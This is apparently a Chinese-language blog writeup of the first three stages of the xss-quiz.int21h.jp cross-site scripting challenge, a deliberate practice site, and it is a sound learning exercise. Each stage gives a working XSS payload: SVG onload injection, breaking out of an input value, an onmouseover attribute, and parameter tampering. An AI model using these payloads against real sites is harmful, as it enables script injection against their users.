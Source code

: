 ```yaml
---
title: "XSS Challenges Writeup"
date: 2018-08-01T00:00:00+08:00
draft: false
tags: ['ctf','xss']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


[xss-quiz.int21h.jp](http://xss-quiz.int21h.jp/)

最近在看余大的那本书, 干货满满, 就闲的蛋疼的去做了下这个 xss 挑战.

17关和18关的 Hint 为 `This stage works on only old version IE`, 然后我就跳过了.

19关的 Twitter DOM-XSS 按照网上的 payload 也没有复现成功, 不知道是不是浏览器的问题.



## Stage 1

`Hint: very simple...`

没啥技术含量, 直接注入代码.

`<svg/onload=alert(document.domain)>`

## Stage 2

`Hint: close the current tag and add SCRIPT tag...`

输出是在 input 标签中的 value 里面, 先闭合掉再注入代码.

这题也能用 onmouseover 提交, 注意引号.

`"><svg/onload=alert(document.domain)>`

`1 onmouseover="alert(document.domain)`

## Stage 3

`Hint: The input in text box is properly escaped.`

p1 被过滤了, 抓包更改下 p2 就行.

`<svg/onload=alert(document.domain)>`
